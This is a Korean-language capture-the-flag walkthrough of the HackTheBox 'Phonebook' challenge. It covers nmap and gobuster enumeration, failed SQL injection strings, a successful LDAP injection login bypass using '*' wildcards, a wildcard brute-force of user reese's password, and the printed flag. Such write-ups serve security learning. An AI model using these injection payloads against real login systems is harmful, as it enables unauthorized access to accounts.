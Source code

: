 
# HackTheBox Walkthrough - Room: Phonebook

**Target IP**: 83.136.253.59:35443  
**Difficulty**: Easy/Medium  
**Objective**: Exploit LDAP Injection vulnerability to obtain credentials and capture the flag.  
![webpage](img/webpage.png)

---

## 🧭 Initial Enumeration

### 🔍 nmap 스캔

```bash
nmap -sV -sC 83.136.253.59
```

→ 기본적인 서비스 및 버전 정보 확인.

### 🌐 gobuster 디렉토리 브루트포싱

```bash
gobuster dir -u http://83.136.253.59:35443/ -w /usr/share/wordlists/dirb/common.txt -x php,txt
```

→ `/login` 경로 확인됨.

---

## 🔐 로그인 페이지 분석

로그인 페이지에 다음 문구가 있음:

> New (9.8.2020): You can now login using the workstation username and password! - Reese

→ 워크스테이션 사용자 이름/비밀번호로 로그인 가능하다는 의미. 그러나 계정 정보는 알 수 없음.

### ❌ SQL Injection 시도 (실패)

```text
id: ' or 1=1 --
pw: 1234
```

또는

```text
id: ' or 1=1 #
pw: 1234
```

→ 모두 실패.

---

## 💡 LDAP Injection 탐색

writeup 참고 결과 LDAP 사용 중이라는 정보 확인.

참고 자료: [Cobalt.io - Introduction to LDAP Injection](https://www.cobalt.io/blog/introduction-to-ldap-injection-attack)  
![ldap](img/ldap.png)

### ✅ 로그인 성공한 페이로드

```text
id: *
pw: *
```
![logined](img/logined.png)

→ 모든 사용자 대상으로 검색. 로그인 성공.  
![search](img/search.png)

---

## 🔍 내부 탐색 및 사용자 확인

검색 창을 통해 사용자의 정보 일부를 확인할 수 있음.

writeup에 따르면 `reese`의 패스워드를 찾아야 함.

---

## 🧪 LDAP Injection Brute-force (Password)

Python 스크립트를 통해 `reese`의 패스워드를 Brute-force:

### 🎯 접근 전략

- username: `reese`
- password: `H*` 로 시작 → 응답 존재
- 이후 `Ha*`, `Hb*`, ... 순차적으로 시도하여 완전한 패스워드 추론

---

## 🚀 exploit.py 사용 결과

```bash
python3 exploit.py
```
![script](img/script.png)

→ 결과:  
![flag](img/flag.png)

```
password: HTB{d1rectory_h4xx0r_is_k00l}
```

🎉 플래그 획득 성공!

---

## 🧠 기술 요약

| 기술             | 설명                                                  |
|------------------|-------------------------------------------------------|
| nmap/gobuster     | 포트 및 디렉토리 탐색을 통해 공격 벡터 확인              |
| LDAP Injection    | SQL이 아닌 LDAP 쿼리 기반 인증 우회 시도                |
| 브루트 포싱       | 패스워드의 패턴을 이용한 증분 추측을 통해 로그인 정보 획득 |

---

## 🎯 최종 결과

- **플래그**: `HTB{d1rectory_h4xx0r_is_k00l}`
- **획득 방법**: LDAP Injection을 통한 인증 우회 및 Brute-force
